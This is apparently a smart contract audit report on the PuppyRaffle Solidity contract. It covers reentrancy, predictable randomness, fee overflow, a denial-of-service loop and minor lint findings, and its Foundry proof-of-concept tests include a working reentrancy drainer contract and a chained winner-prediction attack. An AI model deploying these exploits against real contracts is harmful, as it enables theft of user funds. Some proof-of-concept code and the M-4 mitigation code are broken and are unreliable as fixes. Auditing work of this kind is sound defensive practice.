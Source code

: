 ### [C-1] Reentrancy in refund function


**Description:** 
Rafund function does not implement reentrancy protection. Attacker can invoke refund function from specialy crafted, malicous contract. When refund will send eth to this contract execution is passed to it while state of victim contract is not changed. That gives oportunity to invoke refound once again and receive another eth. Doing it until any eth is left in victim contract will drain all assets from it.

<details>

```javascript
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        payable(msg.sender).sendValue(entranceFee);

        players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }

``` 
</details>

**Impact:** 
High

**Proof of Concept:** (Proof of Code)

<details>
<summary>PoC - test function</summary>

```javascript
    function testRefundReentrancy() public {

        // Stage 0: Deploy malicious contract
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        deal(playerOne, puppyRaffle.entranceFee() * 5);
        vm.prank(playerOne);
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        uint256 contractBalanceBefore = address(puppyRaffle).balance;

        // Stage 1: Deploy malicious contract
        vm.deal(attacker, entranceFee);
        uint256 attackContractBalanceBefore = address(attacker).balance;
        vm.startPrank(attacker);
        ReentrancyContract reentrancyContract = new ReentrancyContract{value: entranceFee}(address(puppyRaffle), attacker);


        // Stage 2: Invoke attack function
        reentrancyContract.attack();

        // Stage 3: Verify that the attacker has successfully withdrawn the prize
        uint256 attackContractBalanceAfter = address(attacker).balance;
        
        assertGt(attackContractBalanceAfter, attackContractBalanceBefore);
        assertLt(address(puppyRaffle).balance, entranceFee);
        vm.startPrank(attacker);

    }

```
</details>

<details>
<summary>PoC - Malicious Contract</summary>

```javascript

// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;
import {Test, console} from "forge-std/Test.sol";

interface PuppyRaffle {
    function getActivePlayerIndex(address player) external view returns (uint256);
    function entranceFee() external view returns (uint256);
    function enter(uint256 index) external payable;
    function withdraw(uint256 amount) external;
    function enterRaffle(address[] memory newPlayers) external payable;
    function refund(uint256 playerIndex) external;
}

contract ReentrancyContract {
    address private immutable owner;
    PuppyRaffle private raffle;
    uint256 private entryFee;
    uint256 private attackerIndex;

    event AttackStarted();
    event EthReceived(uint256 amount);
    event ReentrancyStarted();
    event LootWithdrawn(uint256 amount);

    constructor(address raffleAddress, address ownerAddress) payable {
        // Set the contract owner
        owner = ownerAddress;

        // Initialize the PuppyRaffle contract
        raffle = PuppyRaffle(raffleAddress);

        // Create an array of attackers with the current contract address
        address[] memory attackers = new address[](1);
        attackers[0] = address(this);
        
        // Get the entrance fee from the PuppyRaffle contract
        entryFee = raffle.entranceFee();

        // Enter the raffle with the entrance fee
        raffle.enterRaffle{value: entryFee}(attackers);

        // Get the index of the attacker in the raffle
        attackerIndex = raffle.getActivePlayerIndex(address(this));

        // Log the attacker index and entry fee
        // console.log("Attacker index: %d", attackerIndex);
        // console.log("Entry fee: %d", entryFee);

        emit AttackStarted();
    }

    function attack() external {
        emit ReentrancyStarted();
        raffle.refund(attackerIndex);
    }

    receive() external payable {
        emit EthReceived(msg.value);
        if (address(raffle).balance >= entryFee) {
            raffle.refund(attackerIndex);
        }else{
            withdraw();
        }
    }

    function withdraw() internal {
        uint256 balance = address(this).balance;
        payable(owner).transfer(balance);
        emit LootWithdrawn(balance);
    }
}

```
</details>

**Recommended Mitigation:** 
Implement check interactions effect pattern or ReentrancyGuard mutex.


### [C-2] Insecure randomnes

**Description:** 
The `PuppyRaffle` contract uses insecure randomness. A malicious user can predict how many addresses they need to add due to the randomness implementation based on block data, sender address, and internal array size. All these parameters can be under the attacker's control or they can know their values, making it possible to manipulate the contract state to always win the lottery.


<details>
<summary>Vulnerable code 1</summary>

```javascript
uint256 winnerIndex =
            uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length

```
</details>

Moreover, the value of the minted item is also based on predictable or controllable data:

<details>
<summary>Vulnerable code - 2</summary>

```javascript
uint256 rarity = uint256(keccak256(abi.encodePacked(msg.sender, block.difficulty))) % 100;
```
</details>
 A malicious user can generate a large number of accounts and pick the one which will generate a Legendary item.

It is worth mentioning that participants will always get the same item value for the same account.

In some scenarios, conducting a successful attack may require a lot of assets. However, a malicious user can reclaim them by chaining this exploit with reentrancy, making the whole exploitation profitable. They will get the invested amount back, plus ETH stolen from other participants, plus the prize for winning the lottery and a Legendary NFT.

**Impact:** 
Critical 

**Proof of Concept:** (Proof of Code)

<details>
<summary>PoC</summary>
NOTE: This PoC uses code from reentrancy previous chapter.

```javascript

   function testRandonNumberSelectWinner() public {

        // Stage 0: Start to record logs and start raffle than wait to raffle end
        // That imitates malicious user who monitors the logs and tries to exploit the system
        vm.recordLogs();
        // Users enter the raffle
        address[] memory players1 = new address[](3);
        players1[0] = playerOne;
        players1[1] = playerTwo;
        players1[2] = playerThree;
        
        puppyRaffle.enterRaffle{value: entranceFee * 3}(players1);

        address[] memory players2 = new address[](2);
        players2[0] = playerFour;
        players2[1] = address(5);

        puppyRaffle.enterRaffle{value: entranceFee * 2}(players2);

        // CHAIN 1: deploy reentrancy contract and add it later to the raffle 
        ReentrancyContract reentrancyContract = new ReentrancyContract{value: entranceFee}(address(puppyRaffle), attacker, 0);

        // DEBUG: check logs
        // Retrieve the recorded logs
        Vm.Log[] memory logs = vm.getRecordedLogs();
        uint256 playerCount = getPlayerCount( logs );

        // RAFFLE OVER
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);
        // -----------------

        // To arrays of legit players and one malicious reentrancy
        assertEq(playerCount, players1.length + players2.length + 1, "Player count does not match the expected value");

        // Stage 1: Count address that always will generate legendary item 
        address legendaryAddress = findLegendaryAddress();

        // Stage 2:Predict how many address add to  became a winner
        uint attackerIndex = playerCount; // The attacker is the last player and we counting from 0, I added it to make it clear

        
        // Winner prediction 
        uint256 playersNeeded = predictPlayersNeeded(attackerIndex, legendaryAddress);
        // Attacker gets founds for attack (flashLoan or anything)
        assertEq(address(attacker).balance, 0, "Attacker balance should be 0");
        deal(attacker, puppyRaffle.entranceFee() * playersNeeded);

        // Attacker is founding legendary account
        vm.prank(attacker);
        // We are delaing a lot of ETH as attack might be expensive
        payable(legendaryAddress).transfer(puppyRaffle.entranceFee() * playersNeeded);
        assertLe(puppyRaffle.entranceFee() * playersNeeded, address(legendaryAddress).balance, "Legendary address did not receive the funds");
        
        //deal(legendaryAddress, puppyRaffle.entranceFee() * playersNeeded);
        vm.startPrank(legendaryAddress);

        // Stage 3: Add the necessary number of players to the raffle
        uint256 playersNeededToBeAdd = playersNeeded - playerCount ;
        address[] memory maliciousAddresses = new address[](playersNeededToBeAdd);
        maliciousAddresses[0] = legendaryAddress;   
        
        // // Add the necessary number of players to the raffle
        for (uint256 p = 2; p < playersNeededToBeAdd; p++) {
            address playerAddress = address( uint160(p+100) );
            maliciousAddresses[p] = playerAddress;   
        }

        puppyRaffle.enterRaffle{value: entranceFee * (playersNeededToBeAdd)} (maliciousAddresses);
        vm.stopPrank();

        // CHAIN 2: reentrancy contract attack - attack must be stoped before needed prize will be drained
        vm.startPrank(attacker);
        uint256 totalAmountCollected = entranceFee * (playersNeeded);
        uint256 prizePool = (totalAmountCollected * 80) / 100 +1;
        reentrancyContract.setDrainEdge( prizePool + entranceFee);
        reentrancyContract.attack();
        vm.stopPrank();

        // Stage 4: Select the winner
        vm.prank(legendaryAddress);
        puppyRaffle.selectWinner();

        // Check if attack succeded
        // Legendary address should be the winner
        assertEq(puppyRaffle.previousWinner(), legendaryAddress);
        // Legendary address should have the legendary prize
        uint256 tokenId = puppyRaffle.tokenOfOwnerByIndex(legendaryAddress, 0); // We can assume that this is only attacker's token for test purpse 
        uint256 rarity = puppyRaffle.tokenIdToRarity(tokenId);// Take rarity of stolen token
        uint256 LEGENDARY_RARITY = puppyRaffle.LEGENDARY_RARITY();
        assertEq(rarity, LEGENDARY_RARITY, "Legendary address did not receive a legendary rarity token");
        // Transfer the token from the legendary address to the attacker
        vm.prank(legendaryAddress);
        puppyRaffle.transferFrom(legendaryAddress, attacker, tokenId);

        // Verify the transfer
        address newOwner = puppyRaffle.ownerOf(tokenId);
        assertEq(newOwner, attacker, "Token was not transferred to the attacker");
    }

    function predictPlayersNeeded(uint _attackerIndex, address _attacker) public view returns (uint256 _playerCount) {
        // As this is minium number of players there is no need to iterate from 0
        uint256 playerCount = 4;
        while (true) {
            uint256 winnerIndex = uint256(keccak256(abi.encodePacked(_attacker, block.timestamp,block.difficulty))) % (playerCount);
            if (winnerIndex == _attackerIndex) {
                return playerCount;
            }
            playerCount++;
        }
    }
    
    function getPlayerCount(Vm.Log[] memory logs) public pure returns (uint256) {
        uint256 playerCount = 0;
        for (uint256 j = 0; j < logs.length; j++) {
            if (logs[j].topics[0] == keccak256("RaffleEnter(address[])")) {
                // Decode the data to get the player addresses
                address[] memory newPlayers = abi.decode(logs[j].data, (address[]));
                playerCount += newPlayers.length;
            }
        }
        return playerCount;
}

    function findLegendaryAddress() public view returns (address _legendaryAddress) {
        uint256 rareThreshold = puppyRaffle.RARE_RARITY();
        uint256 commonThreshold = puppyRaffle.COMMON_RARITY();
        uint256 legendaryThreshold = rareThreshold + commonThreshold + 1;

        address legendaryAddress;
        uint256 rarity;
        uint256 i = 0;
        while (true) {
            rarity = uint256(keccak256(abi.encodePacked(legendaryAddress, block.difficulty))) % 100;
            if (rarity > legendaryThreshold) {
                break;
            }
            legendaryAddress = address(uint256(keccak256(abi.encodePacked(i, block.difficulty))));
            i++;
        }
        console.log("Legendary address found after ", i, " iterations");
        return legendaryAddress;
}
   
```

</details>

**Recommended Mitigation:** 
Use a Secure Randomness Source: Replace the insecure randomness source with a more secure and unpredictable one, such as Chainlink VRF (Verifiable Random Function).
Delay Randomness Calculation: Introduce a delay between the action and the randomness calculation to reduce predictability.
Combine Multiple Sources: Use multiple sources of randomness to make it harder to predict the outcome.


### [H-3] Overflow in calculating total fee

**Description:** 

The variable `totalFees`, used for counting the amount of ETH to send as profit, is declared as `uint64`. Since this amount is counted in wei, it is possible to overflow this value. In the test case scenario, with an entrance fee of 1 ETH, the 20th account causes an overflow.


**Impact:** 
High

**Proof of Concept:** 

<details>
<summary>PoC</summary>

```javascript

function testOverflowSelecWinner() public {
        // Overflow in totalFees = totalFees + uint64(fee); 
        // We will enter 19 players and then enter one more to cause overflow
        uint256 numAccounts = 19;
        
        uint totalFees = puppyRaffle.totalFees();
        uint deposited = 0;
        
        for (uint256 i = 0; i < numAccounts; i++) {
            address account = address(uint160(uint256(keccak256(abi.encodePacked(i)))));
            vm.deal(account, entranceFee);

            address[] memory players1 = new address[](1);
            players1[0] = account;
            // Assuming there's a function to enter the raffle
            puppyRaffle.enterRaffle{value: entranceFee}(players1);
            deposited += entranceFee;
        }
        // Next player will cause overflow. 
        // Check current state
        address account = address(uint160(uint256(keccak256(abi.encodePacked('31337')))));
        vm.deal(account, entranceFee);
         address[] memory overflow = new address[](1);
        // Enter and cause overflow 
        puppyRaffle.enterRaffle{value: entranceFee}(overflow);
        deposited += entranceFee;
        // Fastforward time to end the raffle
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);

        // Run selectWinner to update the totalFees
        vm.prank(account);
        puppyRaffle.selectWinner();

        // Check if overflow happened
        uint64 newFees = puppyRaffle.totalFees();
        assertLt(uint(newFees), deposited, "Overflow did not happen");
    }

```

</details>

**Recommended Mitigation:** 
Reconsider using `uint64` for storing data that may exceed its capacity. Use SafeMath or update the Solidity version to 0.8.0 or later, which has built-in overflow checks.


### [M-4] DoS attack in `PuppyRaffle::enterRafle'

**Description:** 
Protocol uses nested loop which sieze is under attacker control. Attacker can invoke function with large array to cause DoS while looping n^2 complex function increasing cost of entering to raffle. 

**Impact:** 
Every next entrance will be more expensive. If attacker  with add big array he will make unprofitable to join raffle fore anyone fue to lifting up gas price for executing `enterRaffle` function

**Proof of Concept:** (Proof of Code)
<details>
<summary>PoC</summary>

```javascript
    function testEnterRaffleDoS() public {
        uint256 largeArraySize = 10000; // Adjust this size based on gas limits and testing environment
        address[] memory largeArray = new address[](largeArraySize);
        for (uint256 i = 0; i < largeArraySize; i++) {
            largeArray[i] = address(uint160(i));
        }

        // Fund the attacker to cover entrance fees
        deal(attacker, puppyRaffle.entranceFee() * largeArraySize);
        vm.txGasPrice(1);
        uint256 gasStart = gasleft();
        // Try to enter the raffle with the large array

        vm.startPrank(attacker);
        try puppyRaffle.enterRaffle{value: puppyRaffle.entranceFee() * largeArraySize}(largeArray) {
            emit log("The DoS attack was successful, which is unexpected.");
        } catch {
            emit log("The DoS attack failed as expected due to high gas consumption.");
        }
        uint256 gasEnd = gasleft();
        uint256 gasUsed = (gasStart - gasEnd)*tx.gasprice;                
        console.log("AL:", gasUsed);
        vm.stopPrank();
    }
```
</details>


**Recommended Mitigation:** 
<details>
<summary>PoC</summary>

```javascript

// Check for duplicates only from the new players using mappin
    function enterRaffle(address[] memory newPlayers) public payable {
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
        for (uint256 i = 0; i < newPlayers.length; i++) {
            players.push(newPlayers[i]);
            addressToRaffleId[newPlayers[i]] != raffleId;
        }

        for(uint256 i=0; i < newPlayers.length; i++>){
            require(addressToRaffleId[newPlayers[i]] != raffleId, "Duplicate");
        }
            emit RaffleEnter(newPlayers);
    }

```
</details>


### [M-5] Ambigous 0 value in function return

**Description:** 
If a player is at index 0 function will mislead user that he is not active because 0 is returned also for non-active users. 

<details>
<summary>PoC</summary>

```javascript
    function getActivePlayerIndex(address player) external view returns (uint256) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
                return i;
            }
        }
        return 0;
    }
```
</details>
**Impact:**
Medium. 
If user owns 0 index function getActivePlayer index will treat they as inective player as it retuns 0. 

**Proof of Concept:** (Proof of Code)

<details>
<summary>PoC</summary>
Added log function to contract 

```javascript
function getActivePlayerIndex(address player) external view returns (uint256) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
                console.log("Found player at index: %d", i);
                return i;
            }
        }
        console.log("Player not not active");
        return 0;
    }
```

```javascript
    function testGetActivePlayerIndexLogic() public {
        address[] memory players = new address[](2);
        players[0] = playerOne;
        players[1] = playerTwo;
        puppyRaffle.enterRaffle{value: entranceFee * 2}(players);

        assertEq(puppyRaffle.getActivePlayerIndex(playerOne), 0);
        assertEq(puppyRaffle.getActivePlayerIndex(playerTwo), 1);
    }
```


</details>

**Recommended Mitigation:** 
Revert if user is not active.
Revert if player is not active.
```javascript
    function getActivePlayerIndex(address player) external view returns (uint256) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
                console.log("Found player at index: %d", i);
                return i;
            }
        }
        // console.log("Player not not active");
        // return 0;
        revert("PuppyRaffle: Player not active");
    }
```

```javascript
   function testGetActivePlayerIndexLogic() public {
        address[] memory players = new address[](2);
        players[0] = playerOne;
        players[1] = playerTwo;
        puppyRaffle.enterRaffle{value: entranceFee * 2}(players);

        assertEq(puppyRaffle.getActivePlayerIndex(playerOne), 0);
        assertEq(puppyRaffle.getActivePlayerIndex(playerTwo), 1);
        vm.expectRevert("PuppyRaffle: Player not active");
        assertEq(puppyRaffle.getActivePlayerIndex(playerThree), 0);
    }
```


### [L-1] Solidity pragma should be specific, not wide

Consider using a specific version of Solidity in your contracts instead of a wide version. For example, instead of `pragma solidity ^0.8.0;`, use `pragma solidity 0.8.0;`

<details><summary>1 Found Instances</summary>


- Found in src/PuppyRaffle.sol [Line: 2](src/PuppyRaffle.sol#L2)

	```solidity
	pragma solidity ^0.7.6;
	```

</details>



### [L-2]  Missing checks for `address(0)` when assigning values to address state variables
Check for `address(0)` when assigning values to address state variables.

<details><summary>2 Found Instances</summary>


- Found in src/PuppyRaffle.sol [Line: 63](src/PuppyRaffle.sol#L63)

	```solidity
	        feeAddress = _feeAddress;
	```

- Found in src/PuppyRaffle.sol [Line: 189](src/PuppyRaffle.sol#L189)

	```solidity
	        feeAddress = newFeeAddress;
	```

</details>

### [L-3]  Define and use `constant` variables instead of using literals

If the same constant literal value is used multiple times, create a constant state variable and reference it throughout the contract.

<details><summary>3 Found Instances</summary>


- Found in src/PuppyRaffle.sol [Line: 148](src/PuppyRaffle.sol#L148)

	```solidity
	        uint256 prizePool = (totalAmountCollected * 80) / 100;
	```

- Found in src/PuppyRaffle.sol [Line: 149](src/PuppyRaffle.sol#L149)

	```solidity
	        uint256 fee = (totalAmountCollected * 20) / 100;
	```

- Found in src/PuppyRaffle.sol [Line: 155](src/PuppyRaffle.sol#L155)

	```solidity
	        uint256 rarity = uint256(keccak256(abi.encodePacked(msg.sender, block.difficulty))) % 100;
	```

</details>



### [L-4]  Event is missing `indexed` fields

Index event fields make the field more quickly accessible to off-chain tools that parse events. However, note that each index field costs extra gas during emission, so it's not necessarily best to index the maximum allowed per event (three fields). Each event should use three indexed fields if there are three or more fields, and gas usage is not particularly of concern for the events in question. If there are fewer than three fields, all of the fields should be indexed.

<details><summary>3 Found Instances</summary>


- Found in src/PuppyRaffle.sol [Line: 54](src/PuppyRaffle.sol#L54)

	```solidity
	    event RaffleEnter(address[] newPlayers);
	```

- Found in src/PuppyRaffle.sol [Line: 55](src/PuppyRaffle.sol#L55)

	```solidity
	    event RaffleRefunded(address player);
	```

- Found in src/PuppyRaffle.sol [Line: 56](src/PuppyRaffle.sol#L56)

	```solidity
	    event FeeAddressChanged(address newFeeAddress);
	```

</details>



### [L-5]  Loop contains `require`/`revert` statements

Avoid `require` / `revert` statements in a loop because a single bad item can cause the whole transaction to fail. It's better to forgive on fail and return failed elements post processing of the loop

<details><summary>1 Found Instances</summary>


- Found in src/PuppyRaffle.sol [Line: 91](src/PuppyRaffle.sol#L91)

	```solidity
	            for (uint256 j = i + 1; j < playerLength; j++) {
	```

</details>








